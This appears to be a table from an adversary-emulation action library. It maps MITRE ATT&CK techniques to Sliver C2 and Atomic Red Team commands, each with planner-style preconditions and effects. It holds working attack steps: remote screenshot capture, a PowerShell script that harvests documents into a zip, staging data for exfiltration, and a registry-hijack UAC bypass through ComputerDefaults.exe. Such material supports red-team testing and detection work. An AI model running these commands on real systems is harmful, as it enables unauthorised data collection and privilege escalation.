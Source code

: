 | b8cbd2a9-6967-4114-b2b5-162098f74a89 | Take Screenshot | \['T1113'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Collection'\] | \['Screen Capture'\] | The `screenshot()` function takes a screenshot of the remote system with screenshot data in PNG format. | {'executor': 'Sliver Executor', 'command': 'screenshot(#{SessionID})'} | {'SessionID': {'default': None, 'description': 'The session ID of the active Sliver connection.', 'type': None}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(screenshot_data_saved ?file - file ?t - host)', '(file_exists ?path - path ?file - file ?t - host)'\] |
| d3d9af44-b8ad-4375-8b0a-4bff4b7e419c | Search files of interest and save them to a single zip file (Windows) | \['T1005'\] | ART | \['windows'\] | \['Collection'\] | \['Data from Local System'\] | This test searches for files of certain extensions and saves them to a single zip file prior to extraction.                              <br> | {'executor': 'Powershell Executor', 'command': '$startingDirectory = "C:"\n$outputZip = "#{output_zip_folder_path}"\n$fileExtensionsString = ".doc, .docx, .txt" \n$fileExtensions = $fileExtensionsString -split ", "\n\nNew-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null\n\nFunction Search-Files {\n  param (\n    \[string\]$directory\n  )\n  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {\n    $fileExtensions -contains $_.Extension.ToLower()\n  }\n  return $files\n}\n\n$foundFiles = Search-Files -directory $startingDirectory\nif ($foundFiles.Count -gt 0) {\n  $foundFilePaths = $foundFiles.FullName\n  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\\data.zip"\n\n  Write-Host "Zip file created: $outputZip\\data.zip"\n  } else {\n      Write-Host "No files found with the specified extensions."\n  }\n'} | {'output_zip_folder_path': {'description': 'Path to directory for saving the generated zip file', 'type': 'Path', 'default': 'PathToAtomicsFolder\\..\\ExternalPayloads\\T1005'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)'\] | \['(certain_extension_data_saved ?file - file ?target - host)', '(file_exists ?output_zip_folder_path - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 2e8f1a9c-0b5e-4a7c-b6d4-9a8b2d3c5f1e | Create Directory | \['T1106'\] | Sliver | \['windows', 'linux'\] | \['Persistence'\] | \['File System Permissions Modification'\] | The `mkdir` command creates a new directory on the target system. | {'executor': 'Sliver Executor', 'command': 'mkdir (#{remote_path},#{SessionID})'} | {'remote_path': {'description': 'Full path of the directory to create'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(dir_exists ?path - path ?dir - dir ?target - host)'\] |
| a57fbe4b-3440-452a-88a7-943531ac872a | Zip a Folder with PowerShell for Staging in Temp | \['T1074.001'\] | ART | \['windows'\] | \['Collection'\] | \['Data Staged: Local Data Staging'\] | Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip<br>was placed in the temp directory.<br> | {'executor': 'Powershell Executor', 'command': 'Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force\n'} | {'output_file': {'description': 'Location to save zipped file or folder', 'type': 'path', 'default': None}, 'input_file': {'description': 'Location of file or folder to zip', 'type': 'path', 'default': None}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(dir_exists ?input_file - path ?dir - dir ?target - host)'\] | \['(dir_data_saved ?dir - dir ?file - file)', '(file_exists ?output_file - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 3c51abf2-44bf-42d8-9111-dc96ff66750f | Bypass UAC using ComputerDefaults (PowerShell) | \['T1548.002'\] | ART | \['windows'\] | \['Defense Evasion', 'Privilege Escalation'\] | \['Abuse Elevation Control Mechanism: Bypass User Account Control'\] | PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10<br>Upon execution administrative command prompt should open<br> | {'executor': 'Powershell Executor', 'command': 'New-Item "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Force\nNew-ItemProperty "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Name "DelegateExecute" -Value "" -Force\nSet-ItemProperty "HKCU:\\software\\classes\\ms-settings\\shell\\open\\command" -Name "(default)" -Value "#{executable_binary}" -Force\nStart-Process "C:\\Windows\\System32\\ComputerDefaults.exe"\n'} | {'executable_binary': {'description': 'Binary to execute with UAC Bypass', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe', 'required': True}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?executable_binary - path ?file - file ?target - host)', {'operator': 'or', 'operands': \['(exe_file ?file - file)'\]}\] | \['(file_executed_as_root ?file - file ?target - host)'\] |